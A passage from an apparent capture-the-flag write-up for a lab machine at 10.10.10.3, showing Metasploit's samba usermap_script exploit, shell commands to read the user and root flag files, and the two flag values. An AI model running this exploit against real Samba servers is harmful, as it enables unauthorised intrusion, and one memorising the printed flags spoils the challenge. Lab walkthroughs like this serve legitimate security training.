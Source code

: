 ```bash
use exploit/multi/samba/usermap_script
msf exploit(multi/samba/usermap_script) > set rhost 10.10.10.3
msf exploit(multi/samba/usermap_script) > exploit 
```
</li></ol></p>
<img src="./img/1b.png" width="100%" alt="Enumeration"><br>
<img src="./img/1c.png" width="100%" alt="Enumeration">
<h2>Getting user.txt flag:</h2>
<p>Now goto home folder and find the user.txt<br>
<b>Command:</b><br>

```bash
cd home
ls
cd makis
ls
cat user.txt
```

<h2>Getting root.txt flag:</h2>
<p>Now goto root folder and find the root.txt<br>
<b>Command:</b><br>
  
```bash
cd root
ls
cat root.txt
```

<img src="./img/1d.png" width="100%" alt="Flags">
<h2>Flags:</h2>
<p><ol><li>user.txt flag: 69454a937d94f5f0225ea00acd2e84c5</li>
<li>root.txt flag: 92caac3be140ef409e45721348a4e9df</li></ol></p>
<h2>Reference:</h2>